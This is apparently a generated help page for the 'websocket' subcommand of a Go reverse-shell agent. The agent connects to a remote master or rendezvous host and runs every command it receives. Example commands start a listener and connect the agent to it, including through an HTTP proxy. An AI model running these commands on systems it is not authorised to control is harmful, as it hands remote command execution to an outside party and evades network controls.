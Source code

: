 ## reverse-shell-agent websocket

Agent that connects to a websocket endpoints and waits for commands

### Synopsis

Connect to a remote websocket and execute every command received. The remote host can be a `master` or a `rendezvous`.

```
reverse-shell-agent websocket [flags]
```

### Examples

```
# On the master (1.2.3.4)
$ reverse-shell-client listen --port 7777

# On the agent
$ reverse-shell-agent websocket --url http://1.2.3.4:7777

Once an agent connects, you will be able to write commands in *stdin* that will be directly executed on the agent. You can also connect to a rendezvous point instead of a master.

You can also connect to the outside using a proxy:
$ http_proxy=http://your-proxy:3128 https_proxy=http://your-proxy:3128 agent websocket -U http://1.2.3.4:7777

```

### Options

```
  -h, --help         help for websocket
      --url string   url of the remote websocket endpoint
```

### Options inherited from parent commands

```
  -v, --verbose int   Be verbose on log output
```

### SEE ALSO

* [reverse-shell-agent](reverse-shell-agent.md)	 - A Go agents listening for remote commands

